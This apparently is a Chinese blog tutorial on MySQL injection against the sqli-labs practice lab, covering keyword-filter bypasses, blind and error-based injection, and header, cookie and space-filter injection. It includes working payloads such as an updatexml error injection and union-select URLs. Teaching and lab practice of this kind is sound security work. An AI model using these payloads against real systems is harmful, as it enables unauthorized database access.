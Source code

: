 ```yaml
---
title:      "关于Mysql注入(二)"
date:       2020-03-16 08:00:00
categories: 信息安全
excerpt_separator: <!--more-->
latex: true
tags:
    - sql_injection
    - 绕过检测
---
```

## <center>基于sqli_lab的sql注入详解(二)</center>
<!--more-->


## SQL注入绕过

### 大小写绕过
> 程序中设置了过滤关键字，但没有对关键字组成深入分析过滤，可以通过修改关键字内字母大小写来绕过过滤措施。  
> 如：AnD 1=1 （将某些字母大写）

### 双写绕过
> 在程序中设置出现关键字之后替换为空，可以双写绕过
> uniunionOn(也可结合大小写绕过使用)

### 编码绕过
>利用URL编码绕过过滤机制

### 内联注释绕过

```sql
/*!select * from admin*/;
```

***
## POST基于时间的盲注
### 以less-15为例
![f2]({{site.baseurl}}/assets/images/images_of_sql_injection/mysql_injection2_f2.png)

### 输入表单，然后使用burp抓包，在注入点添加注入语句，可以看到延时效果
![f1]({{site.baseurl}}/assets/images/images_of_sql_injection/mysql_injection2_f1.png)

***
## POST基于布尔的盲注
### 还是以less-15为例，在注入点添加注入语句，真则返回flag.jpg,假则返回slap.jpg
![f3]({{site.baseurl}}/assets/images/images_of_sql_injection/mysql_injection2_f3.png)  
![f4]({{site.baseurl}}/assets/images/images_of_sql_injection/mysql_injection2_f4.png)

***
## HTTP头中的SQL注入
### 产生原理
> 看一下源码  
> ![f5]({{site.baseurl}}/assets/images/images_of_sql_injection/mysql_injection2_f5.png)  
> ![f6]({{site.baseurl}}/assets/images/images_of_sql_injection/mysql_injection2_f6.png)  
> 未对HTTP头的变量过滤，导致注入漏洞产生
> 可以在参数最后加入\，测试漏洞是否存在

![f9]({{site.baseurl}}/assets/images/images_of_sql_injection/mysql_injection2_f9.png)   
![f10]({{site.baseurl}}/assets/images/images_of_sql_injection/mysql_injection2_f10.png) 

### 利用一个报错函数updatexml构造payload

```http
' and updatexml(1,concat(0x3a,(select version()),0x3a),1) or '1'='1
```

![f7]({{site.baseurl}}/assets/images/images_of_sql_injection/mysql_injection2_f7.png)   
![f8]({{site.baseurl}}/assets/images/images_of_sql_injection/mysql_injection2_f8.png)   

***
## Cookie注入
### 以less-20为例，首先抓到HTTP包，然后进行重定向
![f11]({{site.baseurl}}/assets/images/images_of_sql_injection/mysql_injection2_f11.png)  

### 然后将包forward，抓到含有cookie注入漏洞的包
![f12]({{site.baseurl}}/assets/images/images_of_sql_injection/mysql_injection2_f12.png)   

### 构造Payload
![f13]({{site.baseurl}}/assets/images/images_of_sql_injection/mysql_injection2_f13.png)

***
## 绕过去除注释符的sql注入
### 以less-23为例，可以看到对id参数进行了去除注释符的过滤
![f14]({{site.baseurl}}/assets/images/images_of_sql_injection/mysql_injection2_f14.png)  

### 可以通过or '1'='1  的方式去闭合右边的引号部分，从而达到绕过效果

```http
http://192.168.0.104/sqli/Less-23/?id=-1' union select 1,database(),'3
```

### 返回结果
![f15]({{site.baseurl}}/assets/images/images_of_sql_injection/mysql_injection2_f15.png)  

***
## 绕过过滤and和or的注入
### 对于mysql，关键字和符号是等价的，如 $\color{red}{and}$ 和 $\color{red}{\&\&}$,$\color{red}{or}$ 和 $\color{red}{\|}$

### 以less-25为例
![f16]({{site.baseurl}}/assets/images/images_of_sql_injection/mysql_injection2_f16.png)   

### 改变大小写发现无效

```http
http://192.168.0.104/sqli/Less-25/?id=1'  And 1=1--+
```

![f17]({{site.baseurl}}/assets/images/images_of_sql_injection/mysql_injection2_f17.png)

### 双写绕过和||都可以

```http
http://192.168.0.104/sqli/Less-25/?id=1'  || 1=1--+
http://192.168.0.104/sqli/Less-25/?id=1'  anandd 1=1--+
```

![f18]({{site.baseurl}}/assets/images/images_of_sql_injection/mysql_injection2_f18.png)

***
## 绕过去除空格的注入
### 以less-26为例，对于去除空格的情况，可以采用URL编码或16进制进行绕过,空格可用%20，%09，%0a等
![f19]({{site.baseurl}}/assets/images/images_of_sql_injection/mysql_injection2_f19.png)

```http
http://192.168.0.104/sqli/Less-26/?id=1'%20||'1
```
![f20]({{site.baseurl}}/assets/images/images_of_sql_injection/mysql_injection2_f20.png)

***
## 宽字节注入
### 产生原理
> GBK每个字符2个字节，ASCII每个字符1个字节
> PHP中编码为GBK，函数执行为ASCII，mysql默认字符集是GBK等宽字节字符集